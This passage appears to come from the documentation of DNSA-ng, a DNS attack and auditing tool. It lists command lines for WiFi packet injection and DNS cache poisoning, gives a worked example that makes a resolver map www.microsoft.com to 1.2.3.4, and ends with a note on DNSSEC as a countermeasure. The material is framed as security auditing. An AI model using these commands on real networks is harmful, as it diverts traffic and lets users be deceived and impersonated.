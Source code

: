 #### WiFi Usage

```
./dnsa-ng -m [raw4 or link] -1 -D [DOMAIN OR MACHINE NAME] -S IP_TO_SEND -s CLIENT_TO_TRICK -i ath0 -t wifi -I wlan0
```

WiFi usage is the same, except for the specification of interfaces. In WiFi mode, one interface captures the raw traffic and another is responsible for injecting traffic. The "-i" interface passively captures traffic while the "-I" interface injects forged packets. Mode "-3" concerns the DNS cache poisoning attacks described above, the generic command for this attack is as follows:

```
./dnsa-ng -t ether -m [raw4 or link] -3 -D [HOST SOUGHT] -S [LEGITIMATE IP OF THE HOST] -s [DNS SERVER PERFORMING THE QUERY] -a [ADDRR TO ADD] -b [IP OF THE ADDRR TO ADD] -i [INTERFACE]
```

The following example concerns a query made on the pirate.org domain looking for the hostname "hacker" with IP 100.101.102.103. The DNS server performing the search is server 192.168.1.100. The additional record concerns the FQDN www.microsoft.com by assigning it the IP 1.2.3.4. The injection interface is the eth0 network card.

```
./dnsa-ng -t ether -m [raw4 or link] -3 -D hacker.pirate.org -S 100.101.102.103 –s 192.168.1.100 -a www.microsoft.com -b 1.2.3.4 -i eth0
```

After DNS cache corruption, we can see that the server has cached the forged information:

```bash
$ ping www.microsoft.com
PING www.microsoft.com (1.2.3.4): 56 data bytes
```

## Conclusion

DNS is a protocol sensitive to traffic diversion. Its position, traffic, and the ease of exploitation of attacks concerning it make it an essential element whose security level can be audited using DNSA, although countermeasures are not simple to implement.

DNS is a protocol of choice for malicious users wishing to divert traffic. Its abundant use and the simplicity of possible attacks make it a very sensitive element of the infrastructure.

DNSA allows auditing the security level of DNS exchanges with an offensive approach as it would be in the case of a real attack.

However, countermeasures are not simple to implement: the most widespread currently being DNSSec which uses asymmetric encryption to guarantee the integrity and authenticity of exchanges.

DNSA can also be coupled with other tools such as [arp-sk](https://www.arp-sk.org/) to bypass switches ([ARP cache poisoning](https://www.google.fr/custom?hl=fr&client=pub-7670419794937883&channel=3516851159&cof=FORID%3A1%3BGL%3A1%3BS%3Ahttp%3A%2F%2Fsecuobs.com%3BLH%3A14%3BLW%3A50%3BT%3A%23336699%3BLC%3A%23440066%3BVLC%3A%23d03500%3BGALT%3A%239A2C06%3BGFNT%3A%23223472%3BGIMP%3A%23223472%3BDIV%3A%2333FFFF%3B&domains=www.secuobs.com&sig=nkGK4imLEyzEpn7g&flav=0000&ie=ISO-8859-1&oe=ISO-8859-1&q=arp+cache+poisoning&btnG=Rechercher&sitesearch=www.secuobs.com&meta=)), [dsniff](https://monkey.org/~dugsong/dsniff/), [ettercap](https://www.secuobs.com/news/04102006-ettercap.shtml), etc.
